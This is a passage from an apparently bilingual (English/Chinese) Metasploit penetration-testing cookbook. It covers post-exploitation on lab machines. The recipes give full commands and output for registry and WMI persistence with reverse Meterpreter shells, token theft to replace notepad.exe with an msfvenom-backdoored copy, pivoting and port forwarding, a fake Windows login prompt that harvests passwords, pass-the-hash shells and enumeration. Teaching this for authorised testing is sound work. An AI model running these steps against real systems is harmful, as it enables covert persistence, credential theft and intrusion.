Another one of my favorite features is the ability to use Mimikatz to implant skeleton keys using the misc module with the skeleton command, which will patch LSASS to enable the use of a master password for any valid domain user.

我最喜欢的功能之一是能够使用 Mimikatz 通过 misc 模块的 skeleton 命令植入 skeleton key，这将修补 LSASS 以允许对任何有效域用户使用主密码。

## 使用后门设置持久化

In this recipe, we will learn how to establish a persistent connection with our target, allowing us to connect to it at our will. As the attacker, we want to ensure we have access to our target no matter what and backdooring the target can be effective for setting persistent connections.

在本教程中，我们将学习如何与目标建立持久连接，以便我们随时连接。作为攻击者，我们希望无论如何都能访问目标，对目标进行后门操作可以有效建立持久连接。

### 准备工作

Metasploit has several persistence modules available. In this recipe, we will have a look at some local and post-exploitation modules that we can use to establish persistence on the target machine.

Metasploit 有多个持久化模块可用。在本教程中，我们将查看一些可用于在目标机器上建立持久化的本地和后利用模块。

### 操作方法

1. The first module we will try is the Windows Registry Only Persistence exploit module. This module will install the complete payload in the registry, which will be executed during booting up:

1. 我们将尝试的第一个模块是 Windows 注册表仅持久化利用模块。该模块会将完整有效载荷安装到注册表中，并在启动期间执行：

```
msf exploit(psexec) > use exploit/windows/local/
registry_persistence
msf exploit(registry_persistence) > set SESSION 1
SESSION => 1
msf exploit(registry_persistence) > set STARTUP SYSTEM
STARTUP => SYSTEM
msf exploit(registry_persistence) > set PAYLOAD
windows/meterpreter/reverse_https
PAYLOAD => windows/meterpreter/reverse_https
msf exploit(registry_persistence) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(registry_persistence) > set LPORT 443
LPORT => 443
msf exploit(registry_persistence) > exploit
...
[*] Clean up Meterpreter RC file: /root/.msf4
/logs/persistence/192.168.216.10_20171126.2103
/192.168.216.10_20171126.2103.rc
msf exploit(registry_persistence) >
```

Now we just need to set up a listener and wait for the target machine to reboot.

现在我们只需设置一个监听器并等待目标机器重新启动。

2. Another persistence module we will use is the WMI Event Subscription Persistence local exploit module:

2. 我们将使用的另一个持久化模块是 WMI 事件订阅持久化本地利用模块：

```
meterpreter > migrate -N explorer.exe
[*] Migrating from 5280 to 5672...
[*] Migration completed successfully.
meterpreter > background
[*] Backgrounding session 1...
msf exploit(psexec) > use exploit/windows/local/
wmi_persistence
set SESSION 1
SESSION => 1
msf exploit(wmi_persistence) > set PAYLOAD
windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(wmi_persistence) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(wmi_persistence) > set LPORT 443
LPORT => 443
[*] Installing Persistence...
[+] - Bytes remaining: 12260
[+] - Bytes remaining: 4260
[+] Payload successfully staged.
[+] Persistence installed! Call a shell using
"smbclient \\\\192.168.216.10\\C$ -U BOB
<arbitrary password>"
[*] Clean up Meterpreter RC file: /root/.msf4
/logs/wmi_persistence/192.168.216.10_20171127.1028
/192.168.216.10_20171127.1028.rc
msf exploit(wmi_persistence) >
```

3. With our persistence in place, we need to start a listener using the Generic Payload Handler module:

3. 在持久化就位后，我们需要使用通用有效载荷处理程序模块启动一个监听器：

```
msf exploit(wmi_persistence) > use exploit
/multi/handler
msf exploit(handler) > set PAYLOAD windows
/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(handler) > set LPORT 443
LPORT => 443
msf exploit(handler) > run

[*] Started reverse TCP handler on 192.168.216.5:443
```

4. To get a session back, we need to generate an event ID 4625 (an account failed to log on) with the username BOB, which will trigger the payload. For that, we will use the smbclient command:

4. 要重新获得会话，我们需要使用用户名 BOB 生成事件 ID 4625（账户登录失败），这将触发有效载荷。为此，我们将使用 smbclient 命令：

```
root@kali:~# smbclient \\\\192.168.216.10\\C$
-U BOB BLA
WARNING: The "syslog" option is deprecated
session setup failed: NT_STATUS_LOGON_FAILURE
root@kali:~#
```

5. Back in the msfconsole, we should receive a new Meterpreter session:

5. 回到 msfconsole，我们应该会收到一个新的 Meterpreter 会话：

```
[*] Sending stage (179267 bytes) to 192.168.216.10
[*] Meterpreter session 2 opened (192.168.216.5:443 -> 192.168.216.10:50036) at 2017-11-27 16:11:29 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```

## 成为 TrustedInstaller

Another way to gain persistence is to backdoor a service binary. So, let's try to backdoor a Windows binary in the Windows 10 target machine.

另一种获得持久化的方法是对服务二进制文件进行后门操作。因此，让我们尝试对 Windows 10 目标机器中的 Windows 二进制文件进行后门操作。

### 操作方法

- 1. First, we will download notepad.exe to our Kali machine using the download command:

- 1. 首先，我们将使用 download 命令将 notepad.exe 下载到我们的 Kali 机器上：

```
meterpreter > pwd
C:\Windows\system32
meterpreter > download notepad.exe
[*] Downloading: notepad.exe -> notepad.exe
[*] Downloaded 227.00 KiB of 227.00 KiB (100.0%):
notepad.exe -> notepad.exe
[*] download : notepad.exe -> notepad.exe
meterpreter >
```

Use the pwd command to make sure you are on the C:\Windows\system32 directory where notepad.exe is located. If not, use the cd command to change to the proper directory (don't forget to use double backslashes):
C:\\Windows\\system32.

使用 pwd 命令确保您位于 notepad.exe 所在的 C:\Windows\system32 目录。如果不是，请使用 cd 命令更改到正确的目录（不要忘记使用双反斜杠）：
C:\\Windows\\system32.


2. Now that we have a copy of the binary, let's try to remove the original:

2. 现在我们有了二进制文件的副本，让我们尝试删除原始文件：

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > rm notepad.exe
[-] stdapi_fs_delete_file: Operation failed:
Access is denied.
meterpreter >
```

As you can see, although we are running with system privileges, we are unable to delete the original file. This happens because of TrustedInstaller, a Windows Module Installer service which is part of Windows Resource Protection. This restricts access to certain core system files, folders, and registry keys that are part of the Windows OS.

如你所见，尽管我们以系统权限运行，但仍无法删除原始文件。这是因为 TrustedInstaller，一个 Windows 模块安装程序服务，属于 Windows 资源保护的一部分。它限制了对 Windows 操作系统一部分的某些核心系统文件、文件夹和注册表项的访问。

3. So, before we can backdoor the service, we need to remove the original file. For that, we will use the steal_token Meterpreter command to steal the authentication token and gain the privileges of TrustedInstaller. First, we will start the TrustedInstaller service:

3. 因此，在对服务进行后门操作之前，我们需要删除原始文件。为此，我们将使用 steal_token Meterpreter 命令窃取身份验证令牌并获得 TrustedInstaller 的权限。首先，我们将启动 TrustedInstaller 服务：

```
meterpreter > shell
Process 4836 created.
Channel 2 created.
Microsoft Windows [Version 10.0.10586]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>sc start TrustedInstaller
sc start TrustedInstaller
...
IGNORES_SHUTDOWN)
    WIN32_EXIT_CODE : 0 (0x0)
    SERVICE_EXIT_CODE : 0 (0x0)
    CHECKPOINT : 0x0
    WAIT_HINT : 0x7d0
    PID : 3420
    FLAGS :

C:\Windows\system32>
```

4. With the service up and running, we can use the ps command to get the PID of the TrustedInstaller, use the steal_token followed by the PID to steal the token, and finally remove the original notepad.exe file:

4. 在服务运行后，我们可以使用 ps 命令获取 TrustedInstaller 的 PID，使用 steal_token 后跟 PID 来窃取令牌，最后删除原始 notepad.exe 文件：

```
meterpreter > ps TrustedInstaller
Filtering on 'TrustedInstaller'

Process List
-------------
```

| PID | PPID | 名称 | 架构 | 会话 | 用户 | 路径 |
|---|---|---|---|---|---|---|
| 3420 | 728 | TrustedInstaller.exe | x86 | 0 | NT AUTHORITY\SYSTEM | C:\Windows\servicing\TrustedInstaller.exe |

```
meterpreter > steal_token 3420
Stolen token with username: NT AUTHORITY\SYSTEM
meterpreter > rm notepad.exe
meterpreter >
```

Great! Now that we have successfully removed the binary, let's move on to the next recipe and see how we can backdoor it.

太好了！现在我们已成功删除二进制文件，让我们继续下一个教程，看看如何对其进行后门操作。

## 后门 Windows 二进制文件

By backdooring system binaries, we can ensure that we will have persistence in the target machine, and we won't trigger alarms by adding new registry entries or new binaries to the system.

通过对系统二进制文件进行后门操作，我们可以确保在目标机器上获得持久化，并且不会通过添加新的注册表项或新二进制文件到系统来触发警报。

### 操作方法

- 1. We will use msfvenom to backdoor the notepad.exe binary:
  - Use -a for the architecture, in this case, x86
  - --platform for the platform of the payload Windows
  - -p, for the payload to use
    windows/meterpreter/reverse_tcp, LHOST followed by the IP address of our Kali machine
  - -x to specify a custom executable file to use as a template; in this recipe, we will use notepad.exe
  - -k to preserve the template behavior and inject the payload as a new thread
  - -f for the output format

- 1. 我们将使用 msfvenom 对 notepad.exe 二进制文件进行后门操作：
  - 使用 -a 指定架构，在本例中为 x86
  - --platform 指定有效载荷的平台 Windows
  - -p 指定要使用的有效载荷
    windows/meterpreter/reverse_tcp，LHOST 后跟我们的 Kali 机器的 IP 地址
  - -x 指定要用作模板的自定义可执行文件；在本教程中，我们将使用 notepad.exe
  - -k 保留模板行为并将有效载荷作为新线程注入
  - -f 指定输出格式


- `-b` 指定要避免的字符；在本例中为空字节 `"\x00"`，以及 `-o` 指定有效载荷的输出名称：

```
root@kali:~# msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=192.168.216.5 -x notepad.exe -k -f exe -b "\x00" -o notepad-backdoored.exe
Found 10 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 360
(iteration=0)
x86/shikata_ga_nai chosen with final size 360
Payload size: 360 bytes
Final size of exe file: 353280 bytes
Saved as: notepad-backdoored.exe
root@kali:~#
```

2. 现在我们已经对 `notepad.exe` 二进制文件植入了后门，我们将返回 Meterpreter 会话并上传我们的后门：

```
meterpreter > upload notepad-backdoored.exe
[*] uploading : notepad-backdoored.exe -> notepad-backdoored.exe
[*] uploaded : notepad-backdoored.exe -> notepad-backdoored.exe
meterpreter > mv notepad-backdoored.exe notepad.exe
meterpreter >
```

3. 然后，我们需要启动一个监听器，以便每次用户启动 `notepad.exe` 时都能获得一个新的 Meterpreter 会话：

```
meterpreter > background
[*] Backgrounding session 1...
msf exploit(web_delivery) > use exploit/multi/handler
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 192.168.216.5
LHOST => 192.168.216.5
msf exploit(handler) > run -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 192.168.216.5:4444
msf exploit(handler) >
```

4. 要测试后门，请登录 Windows 10 目标机器并启动 notepad.exe：

```
msf exploit(handler) > [*] Sending stage
(179267 bytes) to 192.168.216.145
[*] Meterpreter session 2 opened
(192.168.216.5:4444 -> 192.168.216.145:49721)
at 2017-12-08 04:15:07 -0500

msf exploit(handler) > sessions 2
[*] Starting interaction with 2...

meterpreter > getpid
Current pid: 4228
meterpreter > ps notepad.exe
Filtering on 'notepad.exe'

Process List
===========

| PID | PPID | Name | Arch | Session | User | Path |
|---|---|---|---|---|---|---|
| 4228 | 3304 | notepad.exe | x86 | 1 | DESKTOP-OJI4NFS\User | C:\Windows\System32\notepad.exe |

meterpreter >
```

现在只要用户启动 notepad.exe，我们就会获得一个新的 Meterpreter 会话。

## 使用 Meterpreter 进行 Pivot

到目前为止，Meterpreter 已证明是后利用中最强大的工具之一。在本教程中，我们将介绍另一种有用的技术，称为 pivot。让我们先通过了解 pivot 的含义、为什么需要它以及 Metasploit 如何对 pivot 有用，来开始本教程。

## 准备工作

在开始教程之前，让我们先详细了解 pivot。Pivot 是渗透测试人员使用的一种方法，利用已受妥协的系统来攻击同一网络上的其他系统。这是一种多层攻击，我们甚至可以访问仅供本地内部使用的网络区域，例如内联网。请考虑以下图所示的场景：



攻击者可以入侵一台连接到互联网的 Web 服务器。然后，攻击者利用受妥协的服务器访问内部网络。这是一个典型的涉及 pivot 的场景。在我们的实验室中，我们使用双网卡服务器来模拟具有 LAN 网络访问权限的面向互联网的服务器；这样我们就避免安装另一台机器充当防火墙。

要为本教程设置 Windows 10 客户端机器，我们首先需要配置虚拟机的网络适配器，使其使用 10.0.0.0/24 网络，将接口从 NAT 更改为自定义网络。然后，我们将禁用 Windows 10 防火墙并添加一个新的注册表项，允许我们像客户端是域的一部分一样使用 Microsoft Windows 身份验证用户代码执行攻击。

添加一个新的 DWORD（32 位）键 LocalAccountTokenFilterPolicy 到 HKEY_LOCAL_MACHINE/SOFTWARE/Microsoft/Windows/CurrentVersion/Policies/System 并将值设置为 1：



## 如何操作...

- 1. 首先，我们将使用 Samba “username map script” 命令执行漏洞利用程序（我们之前已使用过）来攻击 Linux 服务器：

```
msf > use exploit/multi/samba/usermap_script
msf exploit(usermap_script) > set
RHOST 192.168.216.129
RHOST => 192.168.216.129
msf exploit(usermap_script) > exploit

[*] Started reverse TCP double handler
on 192.168.216.5:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo TdPeM5eMnWjlpuK5;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "TdPeM5eMnWjlpuK5\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened
(192.168.216.5:4444 -> 192.168.216.129:41027)
at 2017-12-08 06:35:53 -0500

^Z
Background session 1? [y/N] y
msf exploit(usermap_script) >
```

- 2. 现在我们有了会话，我们将使用带 -u 选项的 sessions 命令将 shell 升级为 Meterpreter 会话：

```
msf exploit(usermap_script) > sessions -u 1
[*] Executing 'post/multi/manage
/shell_to_meterpreter' on session(s): [1]

[*] Upgrading session ID: 1
[*] Starting exploit/multi/handler
[*] Started reverse TCP handler on 192.168.216.5:4433
[*] Sending stage (847604 bytes) to 192.168.216.129
[*] Meterpreter session 2 opened
(192.168.216.5:4433 -> 192.168.216.129:41205)
at 2017-12-08 06:37:08 -0500
[*] Sending stage (847604 bytes) to 192.168.216.129
[*] Meterpreter session 3 opened (192.168.216.5:4433 -> 192.168.216.129:41206) at 2017-12-08 06:37:13 -0500
[*] Command stager progress: 100.00% (736/736 bytes)
msf exploit(usermap_script) >
```

3. 使用我们新创建的 Meterpreter 会话，我们可以在目标上使用 `ifconfig` 命令查看可用的接口：

```
msf exploit(usermap_script) > sessions 2
[*] Starting interaction with 2...

meterpreter > ifconfig

Interface 1
==========
Name          : lo
Hardware MAC  : 00:00:00:00:00:00
MTU           : 16436
Flags         : UP, LOOPBACK
IPv4 Address  : 127.0.0.1
IPv4 Netmask  : 255.0.0.0
IPv6 Address  : ::1
IPv6 Netmask  : ffff:ffff:ffff:ffff:ffff:ffff::

...

meterpreter >
```

如你所见，目标节点有三个接口。`LOOPBACK` 接口，一个 IP 地址为 192.168.216.129（连接到互联网），另一个 IP 地址为 10.0.0.128，是内部网络的 IP 接口。

4. 我们的下一个目标是找到此本地网络上有哪些系统可用。为此，我们将使用 Multi Gather Ping Sweep 后利用模块：

```
meterpreter > background
[*] Backgrounding session 2...
msf exploit(usermap_script) > use post/multi/
gather/ping_sweep
msf post(ping_sweep) > set RHOSTS 10.0.0.0/24
RHOSTS => 10.0.0.0/24
msf post(ping_sweep) > set SESSION 2
SESSION => 2
msf post(ping_sweep) > run

[*] Performing ping sweep for IP range 10.0.0.0/24
```

```
[+] 10.0.0.161 host found
[*] Post module execution completed
msf post(ping_sweep) >
```

该模块能够在网络上发现一台新主机。让我们尝试 pivot 并入侵该主机。

## 原理...

要访问 10.0.0.0/24 网络中的目标，我们必须将所有数据包通过 IP 地址为 192.168.216.129 的受妥协 Linux 机器进行路由。

- 1. 为此，我们将使用 route 命令，该命令会将发往给定子网的流量通过提供的会话进行路由：

```
msf post(ping_sweep) > route add 10.0.0.0/24 2
[*] Route added
msf post(ping_sweep) > route print

IPv4 Active Routing Table
=======================

| Subnet | Netmask | Gateway |
|---|---|---|
| 10.0.0.0 | 255.255.255.0 | Session 2 |

[*] There are currently no IPv6 routes defined.
msf post(ping_sweep) >
```

查看 route 命令的参数。add 参数会将详细信息添加到路由表中。然后，我们提供了目标网络的地址，后跟我们将在 recipe 会话 2 中用于访问网络的 Meterpreter 会话 ID。

- 2. 现在，你可以使用 TCP 端口扫描器辅助模块对 IP 地址 10.0.0.161 进行快速端口扫描：

```
msf post(ping_sweep) > use auxiliary/scanner
/portscan/tcp
msf auxiliary(tcp) > set RHOSTS 10.0.0.161
RHOSTS => 10.0.0.161
msf auxiliary(tcp) > set PORTS 1-500
PORTS => 1-500
msf auxiliary(tcp) > set THREADS 100
THREADS => 100
```


```
msf auxiliary(tcp) > run

[+] 10.0.0.161:139 - 10.0.0.161:139 - TCP OPEN
[+] 10.0.0.161:135 - 10.0.0.161:135 - TCP OPEN
[+] 10.0.0.161:445 - 10.0.0.161:445 - TCP OPEN
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(tcp) >
```

3. 现在我们知道目标正在运行 SMB，我们可以使用 SMB 版本检测辅助模块来显示有关系统的信息：

```
msf auxiliary(tcp) > use auxiliary/scanner/smb/smb_version
msf auxiliary(smb_version) > set RHOSTS 10.0.0.161
RHOSTS => 10.0.0.161
msf auxiliary(smb_version) > run

[+] 10.0.0.161:445 - Host is running Windows 10 Enterprise (build:10586) (name:DESKTOP-OJI4NFS) (workgroup:WORKGROUP)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf auxiliary(smb_version) >
```

4. 借助收集到的信息，我们可以使用 Microsoft Windows 身份验证用户代码执行漏洞利用模块，并使用在后利用阶段收集的凭据来尝试入侵目标机器：

```
msf auxiliary(smb_version) > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 10.0.0.161
RHOST => 10.0.0.161
msf exploit(psexec) > set SMBUSER User
SMBUSER => User
msf exploit(psexec) > set SMBPASS P4ssw0rd
SMBPASS => P4ssw0rd
msf exploit(psexec) > set PAYLOAD windows/meterpreter/bind_tcp
PAYLOAD => windows/meterpreter/bind_tcp
msf exploit(psexec) > run

...

meterpreter > sysinfo
Computer : WINDOWS10
OS : Windows 10 (Build 10586).
Architecture : x86
System Language : pt_PT
Domain : WORKGROUP
Logged On Users : 2
Meterpreter : x86/windows
meterpreter >
```

## 使用 Meterpreter 进行端口转发

讨论枢轴转向而不谈端口转发是不完整的。在本教程中，我们将继续之前的枢轴转向教程，看看如何通过目标节点将攻击机器的数据和请求端口转发到内部网络服务器。这里需要注意的重要一点是，我们可以使用端口转发来访问内部服务器的各种服务。

### 准备工作

我们将从之前教程中讨论的相同场景开始。我们已经入侵了 Linux 服务器，并添加了路由信息以将网络上发送的所有数据包通过 Meterpreter 会话转发。让我们来看一下路由表：

```
msf > route

IPv4 Active Routing Table
======================

Subnet Netmask Gateway
------ ------- -------
10.0.0.0 255.255.255.0 Session 2

[*] There are currently no IPv6 routes defined.
msf >
```

因此，我们的表已经设置完毕。现在我们需要设置端口转发，以便我们的请求能够中继到内部网络。

### 如何操作...

1. 对于本教程，我们将在目标 Windows 10 机器上打开 Internet Information Services 并尝试通过端口转发访问它：



```
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]

OPTIONS:
    -L <opt> Forward: local host to listen on
(optional).
Reverse: local host to connect to.
    -R Indicates a reverse port forward.
    -h Help banner.
    -i <opt> Index of the port forward entry to
interact with (see the "list" command).
    -l <opt> Forward: local port to listen on.
Reverse: local port to connect to.
    -p <opt> Forward: remote port to connect to.
Reverse: remote port to listen on.
    -r <opt> Forward: remote host to connect to.
meterpreter > portfwd add -l 8080 -p 80 -r 10.0.0.161
[*] Local TCP relay created: :8080 <-> 10.0.0.161:80
meterpreter >
```

成功执行该命令表明攻击者与内部服务器之间已建立本地 TCP 中继。攻击者机器上的监听端口设置为 8080，而要访问的内部服务器上的服务位于 80 端口。

- 2. 由于我们已经设置了路由信息，整个中继过程是透明的。现在如果我们尝试通过浏览器使用 URL http://127.0.0.1:8080 访问内部服务器，我们将被定向到内部网络的 HTTP 局域网服务：



端口转发在需要运行 Metasploit 未提供的命令或应用程序的情况下非常方便。在这种情况下，您可以使用端口转发来简化任务。

## 凭据收割

在渗透测试期间，我们并不总是获得系统甚至管理员权限的会话；大多数情况下，我们最终会得到一个来自成功钓鱼的会话，该会话以用户权限运行。这时凭据收割就派上用场了。通过凭据收割，我们将尝试对目标进行钓鱼攻击，以收集用户名、密码和哈希值，这些信息可用于进一步入侵组织。

### 如何操作...

为了收割凭据，我们将使用 Windows 收集用户凭据后利用模块，通过弹出登录提示对目标执行钓鱼攻击。

- 1. 当用户在登录提示中输入其凭据时，这些凭据将被发送到我们的攻击者机器：

```
msf > use post/windows/gather/phish_windows_credentials
msf post(phish_windows_credentials) > set SESSION 1
SESSION => 1
msf post(phish_windows_credentials) > run

[+] PowerShell is installed.
[*] Starting the popup script. Waiting on the user to fill in his credentials...
[+] #< CLIXML
```

2. 在目标机器上，我们应该会看到登录提示，等待用户填写其凭据：



3. 当用户填写登录提示时，其凭据将被发送到我们的攻击者机器：

```
[+] UserName Domain Password
--------- ------ --------
User WINDOWS10 P4ssw0rd

[*] Post module execution completed
msf post(phish_windows_credentials) >
```

太好了！查看模块的输出，我们可以看到我们成功收集了用户的凭据。

## 枚举模块

成功入侵目标后，我们的下一个任务是开始枚举。获得会话只是开始；随着每次新的入侵，我们的目标都有大量信息，我们作为渗透测试人员可以利用这些信息来尝试提升权限并开始向内部网络中的其他目标进行枢轴转向。

### 如何操作...

- 1. 我们将通过使用 Windows 收集已安装应用程序枚举后利用模块开始枚举，该模块将枚举所有已安装的应用程序：

```
msf > use post/windows/gather/enum_applications
msf post(enum_applications) > set SESSION 1
SESSION => 1
msf post(enum_applications) > run

[*] Enumerating applications installed on VAGRANT-2008R2

Installed Applications
====================
```

| 名称 | 版本 |
|---|---|
| 7-Zip 16.04 (x64) | 16.04 |
| Java 8 Update 144 | 8.0.1440.1 |
| Java 8 Update 144 (64-bit) | 8.0.1440.1 |
| Java Auto Updater | 2.8.144.1 |
| Java SE Development Kit 8 Update 144 (64-bit) | 8.0.1440.1 |
| ... | ... |

```
msf post(enum_applications) >
```

查看模块的输出，我们可以看到这在渗透测试期间如何有用。知道目标中安装了哪些应用程序将有助于我们找到可能的权限提升漏洞。

2. 为了进一步提高入侵组织的几率，我们可以使用 Windows 收集 SNMP 设置枚举后利用模块。该模块将允许我们枚举 SNMP 服务配置，并枚举 SNMP 社区字符串，这些字符串可用于入侵网络中的其他目标：

```
msf post(enum_applications) > use post/windows/gather/enum_snmp
msf post(enum_snmp) > set SESSION 1
SESSION => 1
msf post(enum_snmp) > run

..:
[*] No Traps are configured
[*] Post module execution completed
msf post(enum_snmp) >
```

3. 接下来，我们可以使用 Windows 收集已登录用户枚举后利用模块尝试枚举当前和最近登录的 Windows 用户：

```
msf post(enum_snmp) > use post/windows/gather/enum_logged_on_users
msf post(enum_logged_on_users) > set SESSION 1
SESSION => 1
msf post(enum_logged_on_users) > run

[*] Running against session 1

Current Logged Users
===================
```

| SID | 用户 |
|---|---|
| S-1-5-18 | NT AUTHORITY\SYSTEM |
| S-1-5-21-653170132-1988196614-1572848168-1002 | VAGRANT-2008R2\sshd_server |
| S-1-5-21-653170132-1988196614-1572848168-500 | VAGRANT-2008R2\Administrator |

```
..:
[*] Post module execution completed
msf post(enum_logged_on_users) >
```


Metasploit 有多个模块可以帮助你在后利用阶段进行枚举，因此我建议你尝试它们并学习它们如何在渗透测试中帮助你：

```
msf > use post/windows/gather/enum_
use post/windows/gather/enum_ad_bitlocker
use post/windows/gather/enum_ad_computers
use post/windows/gather/enum_ad_groups
use post/windows/gather/enum_ad_managedby_groups
use post/windows/gather/enum_ad_service_principal_names
use post/windows/gather/enum_ad_to_wordlist
use post/windows/gather/enum_ad_user_comments
use post/windows/gather/enum_ad_users
use post/windows/gather/enum_applications
use post/windows/gather/enum_artifacts
use post/windows/gather/enum_av_excluded
use post/windows/gather/enum_chrome
use post/windows/gather/enum_computers
use post/windows/gather/enum_db
use post/windows/gather/enum_devices
use post/windows/gather/enum_dirperms
use post/windows/gather/enum_domain
use post/windows/gather/enum_domain_group_users
use post/windows/gather/enum_domain_tokens
use post/windows/gather/enum_domain_users
use post/windows/gather/enum_domains
use post/windows/gather/enum_emet
use post/windows/gather/enum_files
use post/windows/gather/enum_hostfile
use post/windows/gather/enum_ie
use post/windows/gather/enum_logged_on_users
use post/windows/gather/enum_ms_product_keys
use post/windows/gather/enum_mui_cache
use post/windows/gather/enum_patches
use post/windows/gather/enum_powershell_env
use post/windows/gather/enum_prefetch
use post/windows/gather/enum_proxy
use post/windows/gather/enum_putty_saved_sessions
use post/windows/gather/enum_services
use post/windows/gather/enum_shares
use post/windows/gather/enum_smtp
use post/windows/gather/enum_termserv
use post/windows/gather/enum_tokens
use post/windows/gather/enum_tomcat
use post/windows/gather/enum_trusted_locations
use post/windows/gather/enum_unattend
msf >
```

## Autoroute 和 socks 代理服务器

Metasploit 拥有大量可以帮助你实现目标的模块，但有时你可能希望利用一个会话并运行不同的甚至是自己的工具。我们可以通过将流量路由通过会话然后设置 socks 代理来实现这一点。

### 如何操作...

- 1. 首先，我们需要将流量通过会话路由；在之前的配方中，我们使用了 `route` 命令。因此，这次我们将通过设置会话在我们希望通过此会话访问的子网上运行此模块，来检查通过 Meterpreter 会话的 Multi Manage Network Route 后利用模块：

```
msf > use post/multi/manage/autoroute
msf post(autoroute) > set SESSION 1
SESSION => 1
msf post(autoroute) > set SUBNET 10.0.0.0/24
SUBNET => 10.0.0.0/24
msf post(autoroute) > run

[!] SESSION may not be compatible with this module.
[*] Running module against VAGRANT-2008R2
[*] Searching for subnets to autoroute.
[+] Route added to subnet 10.0.0.0/255.255.255.0
from host's routing table.
[+] Route added to subnet 192.168.216.0/255.255.255.0
from host's routing table.
[*] Post module execution completed
msf post(autoroute) >
```

- 2. 接下来，我们可以使用 Socks4a Proxy Server 辅助模块在端口 9050 上启动一个 `socks4a` 代理服务器，该服务器使用内置的 Metasploit 路由来中继连接：

```
msf post(autoroute) > use auxiliary/server/socks4a
msf auxiliary(socks4a) > set SRVPORT 9050
SRVPORT => 9050
msf auxiliary(socks4a) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(socks4a) >
[*] Starting the socks4a proxy server

msf auxiliary(socks4a) >
```

- 3. 现在，我们可以使用 ProxyChains 将连接重定向通过我们的代理服务器。在本配方中，我们将使用 nmap 对内部网络中的目标机器进行端口扫描：

```
root@kali:~# proxychains nmap -Pn -sT -sV -p 80,139,445 10.0.0.160
ProxyChains-3.1 (http://proxychains.sf.net)
```

```
Starting Nmap 7.60 ( https://nmap.org ) at 2017-12-09 08:56 EST
|S-chain|--<>-127.0.0.1:9050-<>-<>-10.0.0.160:445-<> 
<->-OK
|S-chain|--<>-127.0.0.1:9050-<>-<>-10.0.0.160:80-<> 
<->-OK
|S-chain|--<>-127.0.0.1:9050-<>-<>-10.0.0.160:139-<> 
<->-OK
...

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.58 seconds
root@kali:~#
```

- 4. 然后，使用 pth-winexe 命令在目标系统上获取 shell：

```
root@kali:~# proxychains pth-winexe -U Windows10/User%P4ssw0rd //10.0.0.160 cmd.exe
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|--<>-127.0.0.1:9050-<>-<>-10.0.0.160:445-<> 
<->-OK
E_md4hash wrapper called.
|S-chain|--<>-127.0.0.1:9050-<>-<>-10.0.0.160:445-<> 
<->-OK
|S-chain|--<>-127.0.0.1:9050-<>-<>-10.0.0.160:445-<> 
<->-OK
Microsoft Windows [Version 10.0.10586]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>hostname
hostname
WINDOWS10

C:\Windows\system32>
```

正如你所见，虽然 Metasploit 为我们提供了大量模块和可能性，但我们并不局限于使用这些模块。使用 autoroute 和 socks 代理服务器，我们可以在后利用阶段使用其他工具和框架。

## 分析现有的后利用模块

到目前为止，我们已经看到了模块的实用性以及它们可以为框架增加的强大功能。要掌握框架，了解模块的工作原理和构建方式至关重要。这将帮助我们根据需要快速扩展框架。在接下来的几个配方中，我们将向你展示如何使用 Ruby 脚本来构建自己的模块并将其导入框架。

### 准备工作

开始构建自己的模块，我们需要具备 Ruby 脚本的基础知识。在本配方中，我们将向你展示如何使用 Ruby 开始为框架构建模块。因此，让我们讨论一下模块构建的一些基本要求。

### 如何操作...

让我们从模块构建的一些基础开始：

- 1. 首先，我们需要定义一个继承辅助家族属性的类。模块可以导入多种功能，例如扫描、打开连接、使用数据库等等：
- 2. include 语句可用于将框架的特定功能包含到我们的模块中：
- 3. 以下几行向我们介绍了模块，例如其名称、版本、作者、描述等：

```
class MetasploitModule < Msf::Post
```

```
include Msf::Post::Windows::WMIC
```

```
class MetasploitModule < Msf::Post
include Msf::Post::Windows::WMIC

def initialize(info={})
  super( update_info( info,
    'Name' => 'Windows Gather Run Specified WMIC Command',
```

```
'Description' => %q{ This module will execute a given WMIC command options or read WMIC commands options from a resource file and execute the commands in the specified Meterpreter session.},
'License' => MSF_LICENSE,
'Author' => [ 'Carlos Perez <carlos_perez[at]darkoperator.com>' ],
'Platform' => [ 'win' ],
'SessionTypes' => [ 'meterpreter' ]
)

register_options(
[
    OptPath.new('RESOURCE', [false, 'Full path to resource file to read commands from.']),
    OptString.new('COMMAND', [false, 'WMIC command options.']),
])
end
```

- 4. 最后，run 方法是我们开始编写代码的地方：

```
# Run Method for when run command is issued
def run
  tmpout = ""
  print_status("Running module against #{sysinfo['Computer']}")
  if datastore['RESOURCE']
    if ::File.exist?(datastore['RESOURCE'])
      ::File.open(datastore['RESOURCE'])
        .each_line do |cmd|
          next if cmd.strip.length < 1
          next if cmd[0,1] == "#"
          print_status "Running command #{cmd.chomp}"
          result = wmic_query(cmd.chomp)
          store_wmic_loot(result, cmd)
        end
    else
      raise "Resource File does not exists!"
    end
  elsif datastore['COMMAND']
